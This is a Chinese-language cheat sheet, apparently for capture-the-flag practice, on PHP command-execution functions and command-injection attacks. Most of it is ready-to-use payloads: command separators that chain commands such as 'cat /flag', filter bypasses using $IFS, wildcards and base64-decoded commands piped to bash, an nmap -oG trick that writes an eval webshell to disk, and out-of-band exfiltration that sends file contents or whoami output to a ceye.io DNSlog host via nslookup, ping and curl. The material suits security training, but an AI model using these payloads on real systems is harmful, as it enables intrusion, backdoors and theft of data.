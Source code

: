 ## **php命令执行函数**
php的命令行执行函数：
```
反撇号 `` ：输出并返回shell结果。
    用法：echo `whoami`;
system()：执行外部程序，并且显示输出
    用法：system('whoami')
passthru()
    执行外部程序并且显示原始输出。
    用法：passthru('whoami')
shell_exec()
    通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回
    用法：shell_exec('id’);
exec()
    不输出结果，返回最后一行shell结果，所有结果可以保存到一个返回的数组里面
    用法：exec($_POST['system'], $output);print_r($output);
popen()
proc_open()
pcntl_exec()
```


## **0x00.远程命令执行**

应用程序会调用系统的命令函数，当攻击者可以控制这些函数的参数时，就可以把恶意命令拼接到正常命令中，从而造成远程命令执行漏洞

1. 命令注入漏洞产生的原因
```
1、用户可以控制输入的内容
2、用户输入的内容被当作命令执行
```
2. 漏洞产生位置
* web源码\
  Nexus\
  Webmin\
  ElasticSearch
* 中间件平台\
  weblogic\
  Apache
* 其他环境\
  Postgresql\
  Samba\
  Supervisord



## **0x01.常用命令执行**
shell_exec("ping -c 4 ".$ip);
如ping 4次功能输入框
```

& 前后命令同时进行
ping -c 2 127.0.0.1 & cat /flag
ping -c 2 127.0.0.1 & cat flag.php  

;  先前后后命令都执行
ping -c 2 127.0.0.1 ; cat flag.php  

&& 前面成功，后面才执行

| 管道符，前面结果作为后面的参数

|| 前面失败，后面才执行
可以用于绕过后面有限制的命令
cat flag.php || >/dev/null 2>&1
后面命令表示不回显，不能让后面的命令执行。
还可以：?c=cat flag.php%0a  也不让后面命令执行


namp参数写文件webshell
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '

?host=' <?= @eval($_POST[1]);?> -oG a.phtml '
```



## **0x02.空格绕过**
网站过滤了空格，命令中不能出现空格
```
1. 使用linux下的分割符变量替换空格：
$IFS   =  ${IFS}    $IFS$1
如：cat$IFS$1/flag

2.替换无空格命令
{cat,/flag}

3.替换无空格命令
cat</flag

4.cat%09/flag
%09 table符url编码，有可能绕过白名单了会再解码一次。
```



## **0x03.命令字符替换**
ls换dir
cat查看命令替换：
```
cat    从第一行开始显示全部内容
tac    从最后一行显示全部内容
nl    显示全部内容，且前面有行号
more    按页显示文本
less        按页显示文本
head    显示头指定的行数
tail    显示尾指定的行数
c'a't  加引号
ca""t
ca\t  加一个换行符一样可执行
```

名称替换，如flag
```
flag
f*
f???
a=g;cat fla$a  //定义a变量，替换变量
fla${b}g   //没有b变量，替换为空白

fla\g   //加一个换行符一样可执行
fla'g'  //加引号
```
## **0x04.组合绕过命令**
```
输出flag.php文件中内容：
echo cat flag.php|bash
$IFS$作分隔符：
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh 
//Y2F0IGZsYWcucGhw ->cat flag.php,输出给base64还原然后sh执行

?c=echo(`nl%09f*`);
?c=echo(`less%09f*`);
?c=echo(`more%09f*`);


假如当前目录只有flag.php文件，先ls，再作为参数cat。
cat `ls` 
$IFS$作分隔符：
cat$IFS$9`ls` 
//内联，就是将反引号内命令的输出作为输入执行。
```

## **0x05.无回显远程命令**
1. bash反弹shell
2. DNSlog携带
```
ping ：
ping `whoami`.ip.port.2qytvx.ceye.io
ping对域名比较严格，域名不能有{}，==
找不到主机:
{666}.2qytvx.ceye.io
2qytvx.ceye.io/{666}

curl ：
curl -X POST http://ip.port.xxxxxx.ceye.io/`whoami`
会先执行whoami,再ping,curl


nslookup:
nslookup `cat /flag`.2qytvx.ceye.io
nslookup `cat /flag | base64`.2qytvx.ceye.io
```


## **0x06.限制命令长度的远程命令**
如限制命令长度字符为9:
把超过9的命令进行base64编码
差分不同段成符合长度
命令换行
倒序每一个命令生成以文件名
文件名按时间查看，并写入一个文件
sh x 执行文件

^
查看当前目录中的文件内容flag。
先>nl
再*
